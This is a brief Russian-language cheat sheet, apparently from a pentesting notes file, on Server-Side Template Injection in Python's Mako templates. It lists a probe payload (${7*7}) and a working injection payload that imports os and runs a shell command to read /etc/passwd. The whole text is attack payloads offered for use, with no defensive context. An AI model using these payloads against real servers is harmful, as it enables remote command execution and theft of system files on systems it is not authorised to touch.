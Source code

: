 # SSTI (Server-Side Template Injection) в Python

##  Mako Templates
### Проверка уязвимости
${7*7}  # → 49

### Чтение файла
<% import os %>${os.popen('cat /etc/passwd').read()}
